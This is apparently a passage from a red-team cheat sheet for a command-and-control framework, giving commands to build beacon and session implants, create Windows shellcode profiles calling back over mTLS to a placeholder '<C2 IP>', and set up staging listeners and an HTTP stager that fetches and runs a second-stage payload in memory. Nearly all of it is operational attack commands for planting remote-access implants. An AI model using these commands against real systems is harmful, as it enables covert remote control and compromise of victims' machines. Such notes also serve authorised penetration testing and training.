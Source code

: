 Generate the beacon:
```
profiles generate --save . profile_name
```


> You can also generate session implants in the same way, just omit the beacon part. 


To show the Profiles:
```
profiles
```

To show the Implants:
```
implants
```

If u need to recover a deleted implant:

```
regenerate <name of implant>
```


## Post-Exploitation

###  Staging

- Stegeless = one single binary that connects back to u
- Staged = Dropper, its a smaller payload that when executed, will call back to the C2 server to download and execute the second stage of the payload in-memory, which is where you actually get the beacon to execute.

Create the Profile:
```
profiles new beacon --arch amd64 --os windows --mtls <C2 IP>:443 -f shellcode --timeout 300 --seconds 5 --jitter 1 profile_name
```

Create the Listener to the initial Callback:
```
stage-listener --url http://<C2 IP>:8080 --profile profile_name --prepend-size
```

> --prepend-size if you are going to use some as Metasploit/msfvenom stager
> Dont use the flag if you are going to write your own stager



Start the second Listener to get the second callback:
```
mtls --lhost <C2 IP> --lport 443
```


Generate the Stager:
```
generate stager -r http --lhost <C2 IP> --lport 8080
```
